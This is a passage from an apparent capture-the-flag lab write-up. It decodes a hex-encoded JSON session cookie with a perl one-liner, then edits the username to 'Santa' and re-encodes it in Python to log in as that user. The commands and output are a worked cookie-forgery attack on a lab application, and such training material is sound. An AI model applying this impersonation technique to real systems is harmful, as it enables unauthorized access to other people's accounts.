 We can see the format from the value of this cookie is **hexadecimal**.
<figure>
<center><a href="4.png"><img src="4.png" /></a></center>
<figcaption>Hexadecimal format.</figcaption>
</figure>

If we decoded the cookie's value, the decoded data are shown below with **json** format.
```bash
kali@kali:~$ echo "7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a226161616161227d" | perl -pe 's/([0-9a-f]{2})/chr hex $1/gie'
{"company":"The Best Festival Company", "username":"aaaaa"}
```

We can login to user `Santa` by changing the value of the username and encode it to hexadecimal. So, the Santa's cookie is shown below.
```bash
kali@kali:~$ python
Python 2.7.18 (default, Apr 20 2020, 20:30:41) 
[GCC 9.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
{"company":"The Best Festival Company", "username":"aaaaa"}
>>> a = '{"company":"The Best Festival Company", "username":"Santa"}'
>>> a.encode("hex")
'7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2253616e7461227d'
# ^ is Santa's cookie.
```

Change our cookie to user `santa` with lowercased `s` and encoded it to hexadecimal.
```bash
>>> a = '{"company":"The Best Festival Company", "username":"santa"}'
>>> a.encode("hex")
'7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d'
```
